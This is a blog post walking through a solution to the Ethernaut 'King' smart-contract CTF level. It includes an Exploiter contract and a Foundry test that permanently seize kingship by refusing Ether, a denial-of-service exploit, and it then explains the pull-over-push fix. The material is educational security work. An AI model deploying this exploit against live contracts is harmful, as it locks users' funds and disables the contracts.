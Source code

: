 ```yaml
---
title: 'Ethernaut Challenge #9 Solution — King'
excerpt: This is Part 9 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>Our goal for this challenge is to **break** the smart contract to make it impossible for someone else to gain the kingship again in the future.
coverImage:
  url: '/assets/blog/ethernaut/fallback.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2020-07-15T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/king.svg'
---
```


This is Part 9 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #9: King

> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
> Such a fun game. Your goal is to break it.
> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
>
> Level author: [Alejandro Santander](https://github.com/ajsantander)

Our goal for this challenge is to **break** the smart contract to make it impossible for someone else to gain the kingship again in the future.

## Study the contracts

**State variables**

- `address payable king` the address of the current king. When a new King will take the reign, the old king will receive the `msg.value` sent to the `receive` function
- `uint public prize;` the minimum value that you need to send to the contract if you want to become the new King
- `address payable public owner` the owner of the contract

**`constructor() public payable`**

```solidity
constructor() public payable {
  owner = msg.sender;
  king = msg.sender;
  prize = msg.value;
}
```

It just set up the contract's variables. The `owner` and current `king` is the `msg.sender` (deployer of the contract) and set the `prize` that the new user need to send if he/she want to become the new King

**`function _king() public view returns (address payable)`**

This function just return the current King

**`receive() external payable`**

This is the main function that interest us. As we already know the `receive` function is a **special** function that allow the contract to receive directly Ethers from external contract or EOA. Let's review its code:

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  king.transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

The first thing that we see is `require(msg.value >= prize || msg.sender == owner)`.
This check allows the `owner` of the contract to always take the kingship of the contract, resetting all the values.

From a security standpoint, this is a huge concern in general because this function allows the `owner` to reset everything without repaying the current `king` and leaving funds stuck in the contract. Let's make an example

- Alice is the `owner` of the contract
- At some point we have Bob that send `1 ETH` to the contract and become the new King

Normally, if Simon wanted to become the new king would send `>= 1 ETH` to the contract and the previous `king` (Bob) would receive the `msg.value` sent along with the transaction.
But the `owner` can send **0 ETH**, become the new King and that `1 ETH` that Bob sent previously will never go back to him. The second problem is that `1 ETH` will always be stuck inside the contract!

But this is not the main problem that will let us exploit the contract and solve the challenge.

The problem is inside the `king.transfer(msg.value)` instruction. The `transfer` function allow a contract to transfer X amount of ETH from an `sender` to a receiver. Before explaining which is the problem, let's review all the possible way we have to do this operation.

Solidity give us three different methods to send an amount of ETH from an account to another

- `receiverAddress.transfer(amount)`: This function consumes `2300` gas and send `amount` of Ether from the caller to `receiverAddress`. The `transfer` function fails if the balance of the current contract is not large enough or if the Ether transfer is rejected by the receiving account. The `transfer` function reverts on failure.
- `receiverAddress.send(amount)`: This function consumes `2300` gas and send `amount` of Ether from the caller to `receiverAddress`. Send is the low-level counterpart of `transfer`. If the execution fails, the current contract will not stop with an exception, but `send` will return `false`.
- `(bool sent, bytes memory data) = receiverAddress.call{value: amount}("");`: this is the low-level function of the previous two that gives a lot of flexibility but introduce also numerous possible problems like **re-entrancy**. By default, `call` forward the whole gas if you don't specify it. If the call to the `receiverAddress` fails, `sent` will return `false`

So now we know that `transfer` allows you to send Ether to an address, consuming `2300` gas and **reverting** if it was not possible to perform the transaction.

Why is it a problem if the "transfer Ether to" transaction revert? Well, because if the `transfer` revert also our `receive` function **revert!**
And by reverting it will make the **Contract unusable**, no one can become the new King!

One possible solution is to just create a `Contract` that will not accept any kind of Ether transfer toward it. Let's see a code example in the solution section and how we could avoid to fall in this security problem.

## Solution code

First, we need to create and deploy a contract that does not accept Ether.

```solidity
contract Exploiter {
    constructor(address payable to) public payable {
        (bool success, ) = address(to).call{value: msg.value}("");
        require(success, "we are not the new king");
    }
}
```

The only purpose of this contract is to become the new King and stop accepting Ether. By not implementing any `payable` functions, `fallback` or `receive` no one can send to this contract Ether. Well, they can send it via a `selfdestroy` but this is not the case!

The rest of the code is pretty easy:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Create and deploy a contract that become the new King but will not accept any incoming Ether
    Exploiter exploiter = new Exploiter{value: level.prize() + 1}(payable(address(level)));

    // assert that we are the new king!
    assertEq(level._king(), address(exploiter));

    vm.stopPrank();
}
```

How could the `King` contract prevent this problem from happening?

Well, the first thing would be to adopt a **pull-over-push pattern** where you store the amount that the old king can withdraw and create a function that allows them to withdraw later.

You can read the full solution of the challenge opening [King.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/King.t.sol)

## Further reading

- [Solidity Docs: Sending and Receiving Ether](https://docs.soliditylang.org/en/v0.8.13/security-considerations.html#sending-and-receiving-ether)
- [Solidity Docs: Withdrawal from Contracts](https://docs.soliditylang.org/en/latest/common-patterns.html#withdrawal-from-contracts)
- [SWC-113: DoS with Failed Call](https://swcregistry.io/docs/SWC-113)
- [ConsenSys Smart Contract Best Practices: Don't use `transfer()` or `send()`](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#dont-use-transfer-or-send)
- [ConsenSys Smart Contract Best Practices: Favor _pull_ over _push_ for external calls](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#favor-pull-over-push-for-external-calls)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
